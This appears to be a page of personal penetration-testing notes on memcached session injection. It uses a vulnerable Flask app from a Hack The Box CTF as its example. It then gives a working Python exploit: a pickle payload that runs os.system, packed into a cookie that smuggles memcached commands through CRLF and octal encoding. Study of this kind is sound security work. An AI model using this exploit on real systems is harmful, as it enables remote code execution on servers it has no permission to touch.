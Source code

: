 # Content

# Memcached 
if an app use memcached to store session and trust user given session , the session is serialzed in the memory and if the app uses the session to get any info from it it will be vuln to RCE 

- [blackhat memcache injection](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf)
- [hackmag memcached blog](https://hackmag.com/security/a-small-injection-for-memcached/)

## Python 
example of an vuln lap from HTB cyber-apocalypse-2024 CTF

```python
mport pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)

@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]


@app.errorhandler(Exception)
def handle_error(error):
    message = error.description if hasattr(error, "description") else [str(x) for x in error.args]

    response = {
        "error": {
            "type": error.__class__.__name__,
            "message": message
        }
    }

    return response, error.code if hasattr(error, "code") else 500


@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")


@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)
```

- `SESSION_TYPE = memcached` which tells Flask-Session to store the sessions on a memcached instance
- in any `session.get` it will try to get the info from memcache , which is the session is now malcious and when desrialzed it will execute code 


### Exploit

based on this [blog](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/)

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('ping -c 1 localhost')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
```

![Screenshot_4](https://github.com/kiro6/penetration-testing-notes/assets/57776872/f58f25f9-c27f-48ac-87cc-54577ffe8d7b)



![Screenshot_1](https://github.com/kiro6/penetration-testing-notes/assets/57776872/e2534c41-7aa4-4db8-b06f-259504ebce88)


## PHP 

